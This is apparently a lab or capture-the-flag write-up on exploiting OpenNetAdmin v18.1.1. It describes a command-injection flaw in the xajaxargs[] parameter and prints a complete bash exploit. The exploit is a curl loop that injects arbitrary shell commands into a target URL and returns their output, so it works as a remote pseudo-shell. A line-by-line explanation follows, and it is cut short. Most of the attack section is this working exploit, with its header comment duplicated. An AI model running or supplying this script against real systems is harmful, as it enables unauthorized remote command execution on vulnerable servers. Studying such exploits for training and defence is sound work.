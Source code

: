 ![[opennetadmin_dashboard.png]]


The version of OpenNetAdmin this site is using is v18.1.1.

--- 

Gaining RCE.

OpenNetAdmin 18.1.1 improperly sanitizes input passed to its `xajaxargs[]` parameters, allowing **command injection**. The attacker slips in `; <cmd>` within a parameter that eventually gets run in the backend shell.

Using the following exploit, we can gain code execution.

```sh
# Exploit Title: OpenNetAdmin 18.1.1 - Remote Code Execution
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

# Exploit Title: OpenNetAdmin v18.1.1 RCE
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

What It Does:

    Takes a URL as the first argument:

URL="${1}"

This should be the target's base URL (e.g., http://targetsite.com/ona/).

Infinite loop to act like a pseudo-shell:

while true; do
    echo -n "$ "; read cmd
    ...
done
